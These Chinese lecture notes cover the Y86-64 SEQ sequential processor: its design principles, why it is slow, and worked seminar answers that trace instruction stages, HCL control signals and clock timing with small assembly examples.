12 类指令的功能差别很大，但 SEQ 把它们都套进同一个“取指 → 译码 → 执行 → 访存 → 写回 → 更新 PC”的框架，并规定同一种值总放在同一个信号里（10.4 节）。结果是整台处理器只有一个 ALU、一个数据存储器端口、一个两读两写的寄存器文件，每个控制块最多在 4 个来源中选择（aluA 有 4 个来源，new_pc 有 3 个，其余多为 2 个），整个控制逻辑只有十几段很短的 HCL（表 11）。
如果不这样做，最直接的办法是为每类指令各造一条专用的数据通路：OPq 有自己的运算器，pushq 有自己的减法器和写端口，call 又有一套……硬件会成倍增加，而且这些通路要汇合到同一组状态部件上，汇合处的选择逻辑会非常庞大，任何一处修改都牵动全局。增加一条新指令也会很麻烦；而在统一框架下，加入 iaddq 只需在 8 个集合里各加一个名字（作业 4.51 的延伸）。
（2）阶段顺序与数据依赖方向一致：信号只向前流动#
六个阶段的顺序与指令执行时值的依赖顺序一致：先知道是什么指令，才能决定读哪些寄存器；先有操作数，才能算地址；先有地址，才能访存；访存之后才知道 ret 的目标。于是每个阶段只用到本阶段之前产生的信号（唯一“向后”的 Cnd 也只是从执行阶段送到写回地址 dstE 和 PC 选择，仍是从先算出的值流向后用的地方），整台 SEQ 的组合逻辑没有环路，从状态出发，信号一路向前传播，在有限时间内必然稳定。
如果不这样做，例如让某条指令先访存、再用 ALU 算访存地址，那么同一个周期内信号就要“绕回去”再走一遍，组合逻辑出现环路，可能永远不稳定；要么就得把它拆成多个周期，并加内部寄存器保存中间结果（10.13 节），SEQ“一周期一条指令”的简单性就没有了。
（3）固定的信号分工：减少选择、减少出错#
SEQ 中有几条看似随意、实则精心安排的分工：ALU 的 B 输入永远是 valB 或 0，±8 和常数都放在 A 输入；栈指针永远从 B 口读入、从 E 口写回；ALU 的结果永远走 E 口，内存读出的值永远走 M 口；访存地址只取 valE 或 valA，写入数据只取 valA 或 valP。这样每个写端口的数据来源是固定的一根线，不需要多路选择器；每个选择器的输入也都很少。
如果不这样做，就要多出选择器，或者出现错误。一个典型的例子是 popq 的访存地址：它必须从旧栈顶读，而旧栈指针已经由 A 口读到 valA 中，所以 mem_addr 对 popq 取 valA。若把它改成和 pushq 一样取 valE（加 8 之后的新栈指针），模拟器实测：先压入 0x11、再压入 0x22，然后 popq %rax，正确的设计得到 %rax = 0x22，错误的设计读到的是更下面的 0x11。另一个例子是两个写端口的优先级：若让 E 口优先，popq %rsp 的结果会变成旧值 + 8，而不是约定的读出值（10.7 节）。
（4）规整的指令编码与 RNONE：让控制逻辑“没有特例”#
Y86-64 的编码保证只看第 0 个字节就能知道指令长度和字段布局（表 10）；rA、rB 总在第 1 个字节的固定位置；不用的寄存器字段填 0xF。SEQ 把这个 0xF 直接当作寄存器文件的“不访问”地址，于是 srcA、dstE 等控制块不需要另外产生“读使能”“写使能”信号：不需要访问时让地址等于 RNONE 即可。条件传送也因此只用一行 icode in { IRRMOVQ } && Cnd : rB 就实现了：条件不成立时目的地址落到 RNONE。
如果不这样做，例如像 x86-64 那样采用变长、带前缀、操作数位置不固定的编码，取指阶段就要先逐字节分析才能知道指令有多长、字段在哪里，取指逻辑会远比 SEQ 复杂（现代 x86 处理器正是为此付出了很大的译码代价）；如果没有 RNONE，每个端口都要再加一个使能信号，每段 HCL 都要多写一份“要不要访问”的逻辑。
（5）从不回读、所有状态同一时刻更新：一条指令要么全做、要么全不做#
每条指令所需的输入都在周期开始时已经存在于状态中，它的所有结果（PC、CC、寄存器、内存）在周期末的同一个上升沿一起写入（10.12 节）。这带来两个好处：一是一个周期就够了，不需要中间状态；二是指令的执行是“原子”的，在上升沿之前，状态完全是上一条指令完成后的样子，在上升沿之后，完全是本条指令完成后的样子，不存在“做了一半”的时刻。SEQ 的异常处理正是利用这一点：Stat 不是 SAOK 时，这条指令不写任何状态，处理器停在一个干净的状态上。
如果不这样做，例如让 pushq 先写 %rsp、再读回新值作为地址，就需要两个周期和一个控制这两步的有限状态机；如果允许 OPq 设置的条件码在同一周期内被读到，或者让每次 ALU 运算都更新条件码，指令之间就会互相干扰。自测题 3 实测了后一种错误：若 set_cc 恒为 1，subq %rax,%rax 设置的 ZF = 1 会被后面 irmovq $5,%rcx 中 ALU 的加法覆盖为 0，紧接着的 je 就不再跳转。
（6）阶段边界就是将来的流水线寄存器#
统一的阶段划分和单向的信号流动还为下一步留好了接口：只要在阶段的边界处插入寄存器，把边界上流过的信号锁存下来（10.13 节），SEQ 就变成了流水线处理器，不同的指令可以同时处在不同阶段。第 11 讲的 PIPE 几乎原样沿用了 SEQ 的每个部件和每段 HCL，只是增加了处理指令之间相互影响（冒险）的逻辑。如果 SEQ 的阶段划分是随意的，信号在阶段之间来回穿梭，这一步就无从下手。
2026 版课件新增的 p.19 把这些原理提升为一条更一般的经验：系统设计中最重要的是接口。好的接口例子正是 Y86-64 的 ISA：所有指令都能套进取指、译码、执行、访存、写回、更新 PC 这同一个模式，硬件因此大大简化，本节列出的各条原理都由此而来。课件举的反例是 x86-64 的调用约定：返回地址和普通数据放在同一个栈上，于是数组越界写入就可能改掉返回地址，进而改变下一条指令的地址（第 8 讲），为此软件和硬件都不得不加上各种额外机制。课件最后的对比也值得记住：自然科学是在现实世界中发现性质，计算机科学则是去设计一个具有良好性质的世界。
★ 归纳：SEQ 设计的六条原理
统一框架意味着所有指令共用一套硬件，控制逻辑只做“选择”。
单向流动是指阶段顺序与数据依赖一致，组合逻辑无环，一个周期内必然稳定。
固定分工让每个端口、每个输入的来源固定且很少，选择器最少，错误最少。
规整编码与 RNONE 让取指简单，“不访问”也用同一套地址表示，没有特例。
从不回读、同时更新，意味着一周期一条指令，执行是原子的，异常时状态干净。
阶段即接口，插入流水线寄存器就能得到流水线，设计可以逐步演进。
常见问题：这样“优美”的设计有没有代价？
有，代价就是 10.15 节所说的速度。统一框架意味着每条指令都要走完全部阶段的组合逻辑：irmovq 根本不需要访存，也要等到最慢的 ret、mrmovq 那样的路径来得及稳定，周期才能结束；ALU 被用来做所有加法，也使它处在几乎每条指令的关键路径上。教材的取舍是先用 SEQ 得到一个正确、清晰的设计，再在第 11 讲用流水线弥补速度，而不是一开始就为速度牺牲清晰性。
10.15 SEQ 小结：为什么太慢（课件 p.54）#
SEQ 的实现方法可以总结为（课件 p.54）：把每条指令表示成一串简单的步骤；所有类型的指令遵循同样的大流程；把寄存器、存储器和预先设计好的组合逻辑块组装起来；再用控制逻辑把它们连起来。它的问题是太慢：时钟周期必须足够长，使信号在一个周期内传播过指令存储器、寄存器文件、ALU 和数据存储器。以 ret 为例，周期开始时 PC 刚更新，接着要从指令存储器读出指令，从寄存器文件读出 %rsp，由 ALU 把它加 8，再从数据存储器读出返回地址，才能确定下一个 PC，这一切都必须在同一个周期内完成。
另一方面，每个硬件单元只在周期中的一小段时间里工作：指令存储器在周期开头忙完之后就闲着，数据存储器在周期末尾才开始工作。第 11 讲的流水线正是针对这一点：把六个阶段之间插入寄存器，让不同的指令同时处在不同的阶段，从而大大提高吞吐量。
常见问题：既然 SEQ 一个周期只做一条指令，为什么还要分“阶段”？
在 SEQ 中，“阶段”确实只是逻辑上的划分，硬件里没有阶段之间的寄存器，所有组合逻辑在一个周期里连成一片。分阶段的意义有两个：一是让不同指令的计算对齐到同一个框架，从而共享硬件（10.4 节）；二是为流水线做准备，第 11 讲的 SEQ+ 和 PIPE 正是在这些阶段的边界上插入流水线寄存器得到的。
第二部分 小班研讨题解答（第 10 讲）#
研讨题中的页码是 2025 版课件的页码，对应的 2026 版页码为：第 10 页 → p.14；第 12 页 → p.7；第 13 页 → p.9（另见 p.16）；第 15 页 → p.11（另见 p.17）；第 17 页 → p.27；第 23 页 → p.13（另见 p.18）；第 25 页 → p.25；第 26、27 页 → p.16、p.18；第 28 页 → 2026 版已删去（见表 9）；第 30 页 → p.31；第 34～36 页 → p.35～37；第 38 页 → p.39；第 40 页 → p.41；第 42、43 页 → p.42、43；第 46 页（PC 更新）→ p.44–45；第 46～50 页 → p.49–53。下面解答中的页码均已换成 2026 版。凡涉及具体数值的分析，都以教材图 4.17 的程序（10.3 节表 8）或新编的小程序为例，数值均由 SEQ 模拟器给出。分析“信号流向”时请对照图 2（课件 p.14 的结构图）和图 3（课件 p.15、p.30 的完整硬件图）。
研讨题 1：指令的阶段分解#
1（1）结合课件第 10 页的结构图、第 12 页的步骤概述，分析第 13 页 OPq 指令的分解操作，对照结构图讲解所有信号的流向。
以图 4.17 程序第 3 条指令 subq %rdx, %rbx（地址 0x014，编码 61 23）为例。执行前 %rdx = 9、%rbx = 21（0x15），CC = 100。课件 p.7 的概述是“取指读 2 字节、译码读两个操作数寄存器、执行做运算并设置条件码、访存无、写回更新寄存器、PC 加 2”，p.9 把它写成六行寄存器传送（10.3 节表 2第一列）。下面按图 2自下而上跟踪每个信号：
先看取指阶段。PC = 0x014 送入指令存储器和 PC 增加器。指令存储器读出第 0 字节 0x61，Split 得到 icode = 6（OPq）、ifun = 1（sub）；OPq 有寄存器字节，读出第 1 字节 0x23，得到 rA = 2（%rdx）、rB = 3（%rbx）；OPq 没有常数字，valC 不用。PC 增加器算出 valP = 0x014 + 2 = 0x016。
进入译码阶段，icode、rA、rB 送到寄存器文件下方的控制块：srcA = rA = 2，srcB = rB = 3。寄存器文件 A 口送出 valA = R[%rdx] = 9，B 口送出 valB = R[%rbx] = 0x15。同时 dstE = rB = 3、dstM = RNONE 已经算好，送到两个写端口的地址输入，等待写回。
执行阶段里，valA 经 ALU A 进入 ALU 的 A 输入，valB 经 ALU B 进入 B 输入，ALU fun 选择 ifun（减法），ALU 算出 valE = 0x15 − 9 = 0xc。结果非零、非负、无溢出，Set CC 为 1，所以 ZF、SF、OF = 0、0、0 送到 CC 的输入端，周期结束时写入。
访存阶段什么也不做，mem_read 与 mem_write 都为 0，数据存储器不动作；valM 不用。
写回阶段把 valE = 0xc 沿右侧的长线送到寄存器文件 E 口，地址 dstE = 3，周期结束时写入 %rbx；M 口地址为 RNONE，不写。
最后是更新 PC，New PC 选 valP = 0x016，沿最右侧的线送回 PC，周期结束时写入。
可见 OPq 用到了除数据存储器以外的全部部件。周期结束的上升沿同时完成三件事：%rbx ← 0xc，CC ← 000，PC ← 0x016（模拟器结果与此一致）。
1（2）用同样的方式分析第 15 页 rmmovq 指令的分解操作。
以图 4.17 程序第 5 条指令 rmmovq %rsp, 100(%rbx)（地址 0x020，编码 40 43 64 00 00 00 00 00 00 00）为例，执行前 %rsp = 0x80、%rbx = 0xc。阶段计算见表 3第一列。
取指阶段先看指令字节。第 0 字节 0x40 给出 icode = 4、ifun = 0；寄存器字节 0x43 给出 rA = 4（%rsp）、rB = 3（%rbx）；有常数字，Align 从第 2～9 字节拼出 valC = 0x64（100）；valP = 0x020 + 10 = 0x02a。
译码阶段得到 srcA = rA = 4，srcB = rB = 3；读出 valA = 0x80（要存的数据）、valB = 0xc（基址）。dstE、dstM 都是 RNONE。
执行阶段让 ALU A 选 valC，ALU B 选 valB，ALU 做加法：valE = 0xc + 0x64 = 0x70，这是有效地址。set_cc = 0，条件码不变（这次加法的标志被丢弃）。
访存阶段把 Mem. addr 选 valE = 0x70，Mem. data 选 valA = 0x80，mem_write = 1，周期结束时把 0x80 写到 M[0x70]。
这条指令没有写回，PC 直接更新为 valP = 0x02a。
与 OPq 相比，rmmovq 多用了常数 valC 和数据存储器，ALU 从“运算器”变成“地址加法器”，结果不写回寄存器而是作为访存地址；从 A 口读出的 valA 不进 ALU，而是绕过 ALU 直接作为写入的数据。
1（3）写出并分析 mrmovq 的分解操作。
mrmovq 的阶段计算见表 3第二列，这里再写一遍并逐行说明：
| 阶段 | mrmovq D(rB), rA | 说明 |
|---|---|---|
| 取指 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valC ← M8[PC+2] valP ← PC+10 | 编码 50 rA rB D：注意 rA 字段放的是目的寄存器，rB 是基址寄存器 |
| 译码 | valB ← R[rB] | 只读基址；srcA = RNONE，因为 rA 是要写的而不是要读的 |
| 执行 | valE ← valB + valC | ALU 算有效地址，不设置条件码 |
| 访存 | valM ← M8[valE] | mem_read = 1，地址取 valE |
| 写回 | R[rA] ← valM | dstM = rA，从 M 口写回；dstE = RNONE |
| 更新 PC | PC ← valP | 顺序执行 |
用新编的小程序验证：
0x000: 30f34000000000000000 | irmovq $0x40,%rbx
0x00a: 30f03412000000000000 | irmovq $0x1234,%rax
0x014: 40030800000000000000 | rmmovq %rax,8(%rbx)
0x01e: 50130800000000000000 | mrmovq 8(%rbx),%rcx
0x028: 00 | halt第 4 条指令 mrmovq 8(%rbx), %rcx 在地址 0x01e：取指得 icode = 5、rA = 1（%rcx）、rB = 3（%rbx）、valC = 8、valP = 0x28；译码 valB = 0x40；执行 valE = 0x48；访存从 0x48 读出 valM = 0x1234（上一条 rmmovq 刚写入）；写回 %rcx ← 0x1234；PC ← 0x28。
与 rmmovq 对比：两者的取指和执行完全相同（都用 ALU 算 valB + valC），区别在于数据的方向。rmmovq 在译码阶段多读一个 valA，访存阶段写内存；mrmovq 访存阶段读内存，写回阶段多写一个寄存器。因为读出的值来自内存，所以走 M 口（dstM = rA），这也是 dstM 的 HCL 里只有 mrmovq 和 popq 的原因。
1（4）结合第 17 页 popq 的分解操作，写出并分析 pushq 的分解操作。
| 阶段 | pushq rA | popq rA | 对比 |
|---|---|---|---|
| 取指 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valP ← PC+2 | 同左 | 都是 2 字节，rB 字段为 F |
| 译码 | valA ← R[rA] valB ← R[%rsp] | valA ← R[%rsp] valB ← R[%rsp] | pushq 的 valA 是要压入的数据；popq 的 valA 是旧栈顶地址 |
| 执行 | valE ← valB + (−8) | valE ← valB + 8 | 都由 ALU 计算新栈指针 |
| 访存 | M8[valE] ← valA | valM ← M8[valA] | push 写新栈顶（valE），pop 读旧栈顶（valA） |
| 写回 | R[%rsp] ← valE | R[%rsp] ← valE R[rA] ← valM | popq 写两个寄存器 |
| 更新 PC | PC ← valP | PC ← valP | 相同 |
用图 4.17 程序验证：pushq %rdx（0x02a）执行前 %rsp = 0x80、%rdx = 9，得 valA = 0x9、valB = 0x80、valE = 0x78，访存 M[0x78] ← 0x9，写回 %rsp ← 0x78；紧接着的 popq %rax（0x02c）得 valA = valB = 0x78、valE = 0x80，访存读出 valM = 0x9，写回 %rsp ← 0x80、%rax ← 0x9。
两条指令的设计体现了“统一”的原则：栈指针总是从 B 口读入（srcB = RRSP）、经 ALU 加减、从 E 口写回（dstE = RRSP）；ALU 的 B 输入总是 valB；访存地址只在 valE 和 valA 中选。pushq 先减后写，所以地址用新值 valE；popq 先读后加，所以地址用旧值，而旧值已经由 A 口读出放在 valA 中，不必再从 ALU 前面拉一根线。
1（5）对比 cmovXX 和 jXX 的分解操作，重点分析其中条件判断的处理有什么异同。
两者的阶段计算见表 5。它们的相同之处在于，条件都在执行阶段由同一个 cond 部件根据当前条件码和 ifun 算出（Cnd ← Cond(CC, ifun)），ifun 的编码也一一对应（表 6）；两者都不修改条件码；两者在条件不成立时都退化为“什么也不做、顺序执行下一条”。不同之处在于 Cnd 用在哪里、作用在哪一类状态上：
| 方面 | cmovXX rA, rB | jXX Dest |
|---|---|---|
| 指令长度与字段 | 2 字节，有 rA、rB，无常数 | 9 字节，无寄存器字节，有常数 Dest（valC） |
| 条件成立时 | R[rB] ← valA（经 ALU 的 0 + valA） | PC ← valC |
| 条件不成立时 | 把 dstE 置为 RNONE，取消写回 | PC ← valP |
| Cnd 送到哪里 | 译码/写回阶段的 dstE 控制块 | 更新 PC 阶段的 new_pc 控制块 |
| 影响的状态 | 寄存器文件 | PC |
| ALU 的作用 | 让 valA 穿过（aluB = 0） | 不用 ALU |
0x000: 30f00300000000000000 | irmovq $3,%rax
0x00a: 30f10500000000000000 | irmovq $5,%rcx
0x014: 6101 | subq %rax,%rcx
0x016: 2302 | cmove %rax,%rdx
0x018: 2406 | cmovne %rax,%rsi
0x01a: 742400000000000000 | jne t
0x023: 00 | halt
0x024: 00 | t: halt用模拟器运行这段程序，可以逐条看到：subq 之后 %rcx = 2，CC = 000。cmove %rax, %rdx 的 Cnd = 0，dstE = RNONE，%rdx 不变；cmovne %rax, %rsi 的 Cnd = 1，dstE = %rsi，%rsi ← 3；jne t 的 Cnd = 1，newPC = valC = 0x24，跳过第一个 halt。
值得体会的是条件传送的实现方式：它不是“条件成立才计算”，而是“总是计算，条件不成立就不写”。这种做法在硬件上最简单，只需在 dstE 的 HCL 中加上 && Cnd；它也解释了第 5 讲为什么条件传送不会造成控制转移，在流水线中不需要预测。
1（6）基于第 23、25 页分析 call、ret 的分解操作，再对比它们与 pushq、popq 的相似之处。
call 与 ret 的阶段计算见表 7。图 4.17 程序中，call proc（0x037）执行前 %rsp = 0x80：取指得 valC = 0x41、valP = 0x40；译码 valB = 0x80；执行 valE = 0x78；访存 M[0x78] ← 0x40（返回地址）；写回 %rsp ← 0x78；PC ← valC = 0x41。ret（0x041）译码 valA = valB = 0x78；执行 valE = 0x80；访存读出 valM = 0x40；写回 %rsp ← 0x80；PC ← valM = 0x40。
| 阶段 | pushq rA | call Dest | popq rA | ret |
|---|---|---|---|---|
| 取指 | valP ← PC+2 | valC ← M8[PC+1] valP ← PC+9 | valP ← PC+2 | valP ← PC+1 |
| 译码 | valA ← R[rA] valB ← R[%rsp] | valB ← R[%rsp] | valA ← R[%rsp] valB ← R[%rsp] | 同 popq |
| 执行 | valE ← valB − 8 | 同 pushq | valE ← valB + 8 | 同 popq |
| 访存 | M8[valE] ← valA | M8[valE] ← valP | valM ← M8[valA] | 同 popq |
| 写回 | R[%rsp] ← valE | 同 pushq | R[%rsp] ← valE R[rA] ← valM | R[%rsp] ← valE |
| 更新 PC | PC ← valP | PC ← valC | PC ← valP | PC ← valM |
把四条指令的阶段计算放在一起对比，可以看出：call 的译码、执行、写回与 pushq 完全相同，只是压入的数据换成返回地址 valP（因此 mem_data 多了一项 ICALL : valP），并且 PC 改成 valC；ret 的译码、执行、访存与 popq 完全相同，只是读出的 valM 不写回寄存器，而是送给 PC（因此 new_pc 有一项 IRET : valM）。正是因为这种相似，aluA 的 HCL 才能把 ICALL 与 IPUSHQ 放在一行（−8）、IRET 与 IPOPQ 放在一行（+8），srcB、dstE 中也都把这四条指令放在同一行（RRSP）。
1（7）结合第 26、27 页，分析第 28 页列出的各信号的作用。
课件 p.16、p.18 分别把 OPq 和 call 的每一步对齐到统一框架，右侧标出了每一步产生的信号；2025 版课件 p.28 把这些信号按阶段列出（表 9）。下表进一步说明每个信号在哪里产生、被谁使用：
| 信号 | 产生 | 使用者（控制块或部件） | 在 OPq / call 中的取值 |
|---|---|---|---|
icode, ifun | 取指：Split（地址错时为 nop） | 几乎所有控制块；ifun 还用于 alufun 和 cond | 6:fn / 8:0 |
rA, rB | 取指：Align（无寄存器字节时为 F） | srcA、srcB、dstE、dstM | rA、rB / F、F |
valC | 取指：Align | aluA（irmovq、rmmovq、mrmovq）、new_pc（call、jXX） | 不用 / Dest |
valP | 取指：PC 增加器 | mem_data（call）、new_pc（默认） | PC+2 / PC+9 |
srcA, srcB | 译码控制块 | 寄存器文件的读地址 | rA、rB / F、%rsp |
valA, valB | 寄存器文件读端口 | valA：aluA、mem_addr、mem_data；valB：aluB | 两个操作数 / 只有 valB = 栈指针 |
dstE, dstM | 译码控制块 | 寄存器文件的写地址 | rB、F / %rsp、F |
valE | 执行：ALU | mem_addr、E 口写数据 | 运算结果 / 新栈指针 |
Cnd | 执行：cond | dstE（cmovXX）、new_pc（jXX） | 计算但不使用 |
valM | 访存：数据存储器 | M 口写数据、new_pc（ret） | 不用 / 不用 |
newPC | 更新 PC：New PC | PC 寄存器 | valP / valC |
从 OPq 与 call 的对比可以看到框架的“通用性”：两条指令毫无相似之处，却能用同一组信号描述，只是各自用到其中不同的子集（OPq 不用 valC、valM，call 不用 rA、rB、valA、valM）。硬件只需提供这组信号的全部通路，再由控制逻辑按 icode 选择即可。
研讨题 2：SEQ 各阶段的控制逻辑#
2（1）基于第 30 页，解读 Fetch 阶段所有灰色框信号的生成逻辑。
取指阶段的灰色框有五个（图 4）：icode、ifun、Instr valid、Need regids、Need valC，它们的 HCL 见 10.6 节。icode、ifun 是带“保护”的直通：正常时等于从内存拆出的 imem_icode、imem_ifun；地址越界（imem_error = 1）时强制为 nop 的编码 1:0，保证这条无效“指令”不会在后续阶段修改任何状态，错误改由 Stat 报告。其余三个都是 icode 的集合成员测试，可以列成一张真值表（Cnd 等其他输入与它们无关）：
表 14 取指阶段三个 1 位信号的真值表（由模拟器的 HCL 实现逐一求值）
| icode | 指令 | instr_valid | need_regids | need_valC | 长度 |
|---|---|---|---|---|---|
| 0 | halt | 1 | 0 | 0 | 1 |
| 1 | nop | 1 | 0 | 0 | 1 |
| 2 | rrmovq/cmovXX | 1 | 1 | 0 | 2 |
| 3 | irmovq | 1 | 1 | 1 | 10 |
| 4 | rmmovq | 1 | 1 | 1 | 10 |
| 5 | mrmovq | 1 | 1 | 1 | 10 |
| 6 | OPq | 1 | 1 | 0 | 2 |
| 7 | jXX | 1 | 0 | 1 | 9 |
| 8 | call | 1 | 0 | 1 | 9 |
| 9 | ret | 1 | 0 | 0 | 1 |
| A | pushq | 1 | 1 | 0 | 2 |
| B | popq | 1 | 1 | 0 | 2 |
| C | （非法） | 0 | 0 | 0 | 1 |
| D | （非法） | 0 | 0 | 0 | 1 |
| E | （非法） | 0 | 0 | 0 | 1 |
| F | （非法） | 0 | 0 | 0 | 1 |
need_regids 控制 Align 的工作方式（rA:rB 取第 1 字节或置 F，valC 取第 2～9 或第 1～8 字节）和 PC 增加器；need_valC 只影响 PC 增加器（valC 总会被 Align 拼出来，只是不需要时没人用）。对非法的 icode（0xC～0xF），三个信号都为 0，valP = PC + 1，instr_valid = 0 使访存阶段的 Stat = SINS，处理器停止。
2（2）基于第 34 页，说明 Decode 部件所有信号的用途。
图 5中的信号可分为三组。第一组是输入的指令字段，其中 icode 决定每个控制块选哪一行；rA、rB 是候选的寄存器编号；Cnd 来自执行阶段，只用于 dstE，实现条件传送。第二组是四个控制块的输出，其中 srcA、srcB 是两个读端口的地址；dstE、dstM 是两个写端口的地址；它们的值要么是 rA/rB、要么是 %rsp 的编号 4、要么是 RNONE（0xF，表示不访问）。第三组是寄存器文件的数据端口，其中 A、B 读端口的输出 valA、valB 送往执行和访存阶段；E、M 写端口的数据输入分别是 ALU 结果 valE 和内存读出值 valM，在周期结束时写入 dstE、dstM 所指的寄存器。四个端口各自独立，所以一条指令最多能读两个、写两个寄存器（popq 恰好用满写端口，pushq/call/ret 读 %rsp，OPq/rmmovq 用满读端口）。
2（3）解读第 35 页的 srcA，写出并分析 srcB。
srcA 的 HCL（10.7 节）三行分别对应：读 rA 的指令（rrmovq/cmovXX、rmmovq、OPq、pushq——rA 是数据来源）；读 %rsp 的指令（popq、ret——需要旧栈顶作为访存地址）；其余不读。课件 p.36 右侧逐条列出了各指令译码阶段的第一步：OPq、cmovXX、rmmovq 为 valA ← R[rA]；popq、ret 为 valA ← R[%rsp]；jXX、call 无操作数。注意 call 虽然要用 %rsp，但它通过 B 口读（valB），A 口空闲。srcB 对应各指令译码阶段的第二步：
word srcB = [
icode in { IOPQ, IRMMOVQ, IMRMOVQ } : rB;
icode in { IPUSHQ, IPOPQ, ICALL, IRET } : RRSP;
1 : RNONE; # Don't need register
];读 rB 的是 OPq（第二个操作数）和 rmmovq、mrmovq（基址寄存器）；四条栈指令都在 B 口读 %rsp，然后送进 ALU 加减 8。rrmovq/cmovXX、irmovq 虽然有 rB 字段，但 rB 只是目的寄存器，不需要读，ALU 的 B 输入用常数 0 代替。可以把两个读端口的分工概括为：A 口读“数据”（要计算或要存储的值，或 pop/ret 的旧栈顶），B 口读“基址”（OPq 的另一个操作数、访存的基址或栈指针）。
2（4）解读第 36 页的 dstE，写出并分析 dstM。
dstE 是 valE 的去向（10.7 节）。课件 p.37 列出各指令写回阶段的 E 口操作：OPq 写回结果 R[rB] ← valE；cmovXX 有条件地写回 R[rB] ← valE；rmmovq、jXX 没有；popq、call、ret 都是 R[%rsp] ← valE（更新栈指针）。HCL 中第一行 icode in { IRRMOVQ } && Cnd : rB 是关键：rrmovq 的 Cnd 恒为 1，cmovXX 在条件不成立时 Cnd = 0，dstE 落入默认的 RNONE。dstM 是 valM 的去向：
word dstM = [
icode in { IMRMOVQ, IPOPQ } : rA;
1 : RNONE; # Don't write any register
];只有从内存读数据并写进寄存器的两条指令需要 M 口，而且目的寄存器都在 rA 字段（mrmovq D(rB), rA 与 popq rA）。ret 虽然也读内存，但读出的返回地址送往 PC，不写寄存器。popq 同时用 E、M 两个口：E 口写 %rsp，M 口写 rA；当 rA 也是 %rsp 时 M 口优先（10.7 节方框）。
2（5）解读第 38 页的 ALU A，写出并分析 ALU B。
课件 p.39 列出各指令执行阶段的计算：OPq 为 valE ← valB OP valA；cmovXX 为 valE ← 0 + valA（让 valA 穿过 ALU）；rmmovq 为 valE ← valB + valC（算有效地址）；popq、ret 为 valE ← valB + 8（栈指针加 8）；call 为 valE ← valB + (−8)（栈指针减 8）；jXX 不用 ALU。把每一行“+”号右边的操作数收集起来，就是 aluA 的四种来源：valA、valC、−8、+8。把“+”号左边的操作数收集起来，就是 aluB：
word aluB = [
icode in { IRMMOVQ, IMRMOVQ, IOPQ, ICALL,
IPUSHQ, IRET, IPOPQ } : valB;
icode in { IRRMOVQ, IIRMOVQ } : 0;
# Other instructions don't need ALU
];aluB 只有 valB 和 0 两种来源。凡是“在寄存器 B 的值上做加减”的指令都选 valB：访存类（基址 + 偏移）、OPq（第二操作数）、栈类（栈指针 ± 8）。只是“搬运”一个值的 rrmovq/cmovXX、irmovq 选 0，使 valE 等于 aluA。halt、nop、jXX 的 aluA、aluB 都没有指定，ALU 输出的值没人使用。把 −8、+8 放在 A 输入、栈指针放在 B 输入，使得 aluB 的选择大为简化，这也是 pushq/popq 让 %rsp 走 B 口的原因。
2（6）基于第 40 页，说明 Memory 部件各信号的用途。
图 7中：Mem. addr 输出数据存储器的地址，从 valE（rmmovq、pushq、call、mrmovq）或 valA（popq、ret）中选；Mem. data 输出要写入的数据（data in），从 valA（rmmovq、pushq）或 valP（call）中选；Mem. read、Mem. write 是两个 1 位控制信号，分别使存储器执行读或写，读出的值 valM 从 data out 送出，写入发生在周期结束的上升沿；dmem_error 是存储器报告的地址越界；stat 控制块综合 imem_error、instr_valid、dmem_error 与 icode 输出本条指令的状态 Stat（SAOK、SADR、SINS 或 SHLT），HCL 见 10.9 节，优先级依次是地址错、非法指令、halt。
2（7）结合第 42、43 页，写出并分析 Memory Data 和 Memory Write。
课件 p.42 列出各指令访存阶段的操作：rmmovq 写 M8[valE] ← valA；popq 读 M8[valA]；call 写 M8[valE] ← valP；ret 读 M8[valA]；OPq、jXX 无操作。从中可以直接读出两个控制块：
word mem_data = [
# Value from register
icode in { IRMMOVQ, IPUSHQ } : valA;
# Return PC
icode == ICALL : valP;
# Default: Don't write anything
];
bool mem_write = icode in { IRMMOVQ, IPUSHQ, ICALL };写入的数据只有两类：寄存器中的值（rmmovq 存 R[rA]，pushq 压入 R[rA]，都已由 A 口读到 valA 中）和返回地址（call 压入 valP）。mem_write 恰好是这三条指令；它与 p.43 的 mem_read = icode in { IMRMOVQ, IPOPQ, IRET } 没有交集，所以一条指令不会既读又写内存。mem_data 的默认情况没有给值，因为 mem_write = 0 时数据输入被忽略。
2（8）基于第 46 页解读 PC 更新的生成逻辑。
（PC 更新逻辑在 2025 版课件 p.44–45、2026 版课件 p.44–45；题目所说的第 46 页在 2025 版是 SEQ Operation，在 2026 版是“Timing”分节页，题目的页码对应的是另一个版本。）new_pc 的 HCL 见 10.10 节，它从三个候选值中选一个：call 无条件跳到 valC；jXX 在 Cnd = 1 时跳到 valC；ret 跳到从栈中读出的 valM；其余情况（包括 jXX 条件不成立）取 valP。注意各行的顺序：第二行的条件写成 icode == IJXX && Cnd，这样条件不成立的 jXX 会落到最后一行 valP；如果漏写 && Cnd，所有条件跳转都会变成无条件跳转。另外 jmp 的 ifun = 0，Cond 恒为真，所以也由第二行处理。
2（9）基于第 46～50 页，讲解 SEQ 执行一条指令的完整过程，以及存储部件（时序电路）发生变化的时间点和内容。
以课件 p.50 程序第 3 条指令 addq %rdx, %rbx 为例（周期 3，图 9与表 12）。周期 3 开始的上升沿写入了第二条 irmovq 的结果，状态为 PC = 0x014、CC = 100、%rbx = 0x100、%rdx = 0x200。随后组合逻辑按信号的依赖关系依次稳定：
指令存储器以 0x014 为地址读出 60 23，得到 icode = 6、ifun = 0、rA = 2、rB = 3，PC 增加器算出 valP = 0x016。
译码控制块给出 srcA = 2、srcB = 3、dstE = 3、dstM = F，寄存器文件读出 valA = 0x200、valB = 0x100。
ALU 算出 valE = 0x300，标志为 ZF = 0、SF = 0、OF = 0，set_cc = 1；cond 用当前 CC = 100 算出的 Cnd 不被 addq 使用。
访存控制块给出 mem_read = mem_write = 0；Stat = SAOK。
New PC 选出 newPC = valP = 0x016。至此（时刻 ②）所有新值都等在状态部件的输入端：PC 输入 0x016，CC 输入 000，寄存器文件 E 口地址 3、数据 0x300，数据存储器写使能为 0。
周期 3 结束（周期 4 开始）的上升沿，四个状态部件同时更新：PC ← 0x016，CC ← 000，%rbx ← 0x300；数据存储器因写使能为 0 不变。接着组合逻辑对新状态反应，处理 je：用新的 CC = 000 算出 Cnd = 0，newPC = 0x01f；周期 4 结束的上升沿只有 PC 改变。表 12列出了全部 6 个周期每个上升沿写入的内容，例如周期 5 结束时 rmmovq 写入 M[0x200] ← 0x300。
